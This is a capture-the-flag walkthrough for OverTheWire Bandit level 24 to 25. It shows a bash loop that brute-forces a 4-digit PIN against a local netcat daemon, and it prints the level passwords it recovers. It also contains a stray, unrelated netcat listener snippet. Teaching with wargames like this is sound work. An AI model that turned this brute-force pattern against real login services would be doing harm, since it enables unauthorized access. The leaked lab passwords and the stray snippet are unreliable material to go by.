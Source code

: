 # Level 24 - Level 25: Bandit - OverTheWire

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.

## Solution


```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
Wrong! Please enter the correct pincode. Try again.

bandit24@bandit:~$ vi /tmp/brute.sh


while true; do
    echo 'lol'
    sleep 1
done | nc -l 9000


#!/bin/bash

for i in {0001..9999}; do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002

bandit24@bandit:~$ chmod 700 /tmp/brute.sh
bandit24@bandit:~$ /tmp/brute.sh

Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```